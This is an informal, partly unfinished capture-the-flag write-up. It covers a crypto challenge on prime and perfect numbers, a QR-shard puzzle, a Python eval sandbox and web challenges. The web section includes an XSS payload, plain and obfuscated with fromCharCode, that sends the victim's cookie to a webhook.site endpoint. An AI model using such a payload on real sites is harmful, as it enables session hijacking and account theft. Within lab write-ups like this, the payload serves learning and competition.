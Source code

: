 ## Crypto

### Lucky Numbers (Easy)

This is the relevant code which takes 2 numbers and determines if the flag will be given to us. The numbers are s and t, which are in the ranges of 20,000-150,000,000,000 and 0-42 respectively.

```python
        n=2**t-1
        sent=False
        for i in range(2,int(n**0.5)+1):
             if (n%i) == 0:
                print("The second number didn't bring me any luck...")
                sent = True
                break
        if sent:
            continue
        u=t-1
        number=(2**u)*(2**(t)-1)
        sqrt_num=math.isqrt(s)
        for i in range(1,sqrt_num+1):
            if s%i==0:
                A.append(i)
                if i!=s//i and s//i!=s:
                    A.append(s//i)      
        total=sum(A)
        if total==s==number:
```

total must be equal to s which must be equal to number. Total is the sum of A, which is a list of ints. // is whole number divide, % is remainder, ** is exponentiation, isqrt is int square root.

The for loop goes from 1 to the square root of s (rounded) plus 1. range is exclusive, so it loops square root of s times. each loop, it checks if the remainder of s divided by i is 0. If it is, that means that s is divisible by i. If it is, it appends i to A, and checks if i is not equal to s // i AND if s //i is not equal to s. Which is to say that neither number is the square root of the other (I think). If that condition is met, s // i is appended to A.

The other component which must be equal, besides total and s, is number. number is equal to 2^u times 2^t -1, where u is t-1

The final requirement is that for i in range 2 to sqrt of n + 1, where n is 2^t -1, n % i must never be equal to 0.

I had a hard time making heads or tails of this math even after looking through it. I figured the algorithms probably had a more elegant description which would make the problem easier to solve. Luckily, GPT4 is quite good at math, and it identified the functions as checking for a prime number and a perfect number respectively. It wrote a script to check for pairs which might satisfy the conditions and made a nice table. I tried a pair which were in the allowed range and it worked. Very impressive

## Misc

### Soulsplitter (Easy)

I wrote a python script to turn the shards back into a soul, then I ran it using the -i flag for interactive mode so I could decode as many souls as I wanted (and so I didn't have to make a main function which takes command line input) (I should probably learn how to do that). The program takes the name of a text file which contains the shards, to make it easy to enter them and test the program. After some trouble with dependencies, I got it to work, but it doesn't work correctly. After adding some test statements, it became clear that a correct QR code was not being generated correctly. Checking the soulsplitter code, it's obviously because I wasn't accounting for the shuffling of the atoms or the shuffling of the shards and the missing shard. It seems like this problem will require some kind of brute force attack.

Vnzydem-Dfl-VYFqaeWvcQ is the soul for the current set of shards s1.txt. You can use it to confirm if the program is working
### Safest Eval (Medium)

https://safest-eval.flu.xxx

This problem links to a website in which you can submit a python function to be run on the server. The python code is evaluated for it's capability to determine if a string is a palindrome and the result is returned. The server files are available. Presumably, you need to write a python function which can get the flag and send it to a webhook or something.

## PWN

### Destiny Digits


## Rev

## Web

### Awesome Study Notes

This challenge features a website programmed in Rust which allows the user to take notes in html format as well as have a moderator check notes for TOS violation. Presumably, we must do a XSS attack with javascript in order to steal the admin cookie from the administrator and get the flag

I was wondering what happended to my `<script>` tag when I entered it in a note, since other html tags were sent back unchanged. Turns out the Rust source code has a sanitizer:

```rust
    let safe = ammonia::Builder::new()
        .tags(hashset!["h1", "p", "div"])
        .add_generic_attribute_prefixes(&["hx-"])
        .clean(&body)
        .to_string();
```

![[Pasted image 20231014142138.png]]

To access the flag, go to: https://awesomenotes.online/note/flag and add a header to the request called Cookie with session=ADMIN_SESSION where ADMIN_SESSION is the token for the admin

### Based Encoding

![[Pasted image 20231014192249.png]]


Final payload:

```html
<script>var xhr=new XMLHttpRequest();
xhr.open("POST","https://webhook.site/a6d36dad-50de-4be0-ae29-8e48474bc7f2",true);
xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xhr.send("cookie="+encodeURIComponent(document.cookie));</script>
```

However, this doesn't work because the base91 encoding is modified and doesn't use periods or single quotes. The above payload has already had its single quotes replaced by double quotes, but more alterations were needed.

```html
<script>var xhr=new XMLHttpRequest();xhr["open"]("POST","https://webhook" +String["fromCharCode"](46) + "site/3aac4f80"+String["fromCharCode"](45) + "6b5b"+String["fromCharCode"](45) + "442e"+String["fromCharCode"](45) + "a93e"+String["fromCharCode"](45) +"a0503256d4c7",true);xhr["setRequestHeader"]("Content"+String["fromCharCode"](45) +"Type","application/x"+String["fromCharCode"](45) +"www"+String["fromCharCode"](45) +"form"+String["fromCharCode"](45) +"urlencoded");xhr["send"]("cookie="+encodeURIComponent(document["cookie"]));</script>
```



